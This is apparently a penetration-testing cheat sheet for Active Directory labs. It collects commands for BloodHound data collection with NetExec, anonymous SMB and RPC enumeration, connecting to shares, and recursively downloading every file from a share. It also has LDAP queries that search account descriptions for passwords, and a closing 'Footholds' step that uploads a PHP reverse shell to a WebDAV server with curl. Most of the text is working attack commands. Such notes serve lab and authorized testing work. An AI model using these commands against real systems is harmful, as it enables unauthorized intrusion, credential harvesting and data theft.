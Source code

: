 ### Running NetExec to collect data on target machine for bloodhound
```
# make sure to install NetExec manually on kali machine
# You might need to go to /etc/hosts and put the FQDN or domain name with the DC IP before running the command below - a bloodhound .zip file will be available on your home folder in the .nxc folder
nxc ldap domain.name -u 'user' -p 'password' --bloodhound -c all -ns DC_IP
```

You will get a .zip file, so transfer that over from the target machine to your attacker machine, and while bloodhound is running on your kali machine, just drag the .zip file over to it for analysis

## smbclient
```
#smbclient null session or no password
smbclient -L 10.10.10.10 -N
rpcclient 10.10.10.10 -N
smbclient --no-pass //<IP>/<Folder>

#enumerate shares
smbclient -N -L //10.10.10.10
smbclient -L 10.10.10.10
smbclient -L 10.10.10.10 -U ''

#connect to share
smbclient -N //10.10.10.10/share_folder
smbclient \\\\10.10.10.10\\share_folder
smbclient //10.10.10.10/share_folder -U some_user
smbclient //10.10.10.10/share_folder -U ''
smbclient '\\10.50.10.10\share_folder' -u 'username' -p 'password' --option='client min protocol=NT1'
smbclient '\\10.50.10.10\share_folder' -u 'guest' -p '' --option='client min protocol=NT1'
```
Download all files/folders:
```
smbclient "//10.10.10.10/Some Folder" -U some_user
prompt OFF
recurse ON
mget *
```

## ldap search
```
ldapsearch -x -H ldap://10.10.10.10 -D '' -w '' -b "dc=hutch,dc=offsec"
ldapsearch -x -H ldap://10.10.10.10 -bx "dc=hutch,dc=offsec"
ldapsearch -x -H ldap://10.10.10.10 -D '' -w '' -b "dc=hutch,dc=offsec" | grep samaccountname:
#this command can find passwords in the description possibly
ldapsearch -x -H ldap://10.10.10.10 -D '' -w '' -b "dc=hutch,dc=offsec" | grep description
```

# Common and Useful Exploit Methods - Footholds
## File Upload - Reverse Shells 
```
# File upload via curl
curl -XPUT -d @shell.php http://website.com/webdav/shell.php -u 'admin:password' 
```
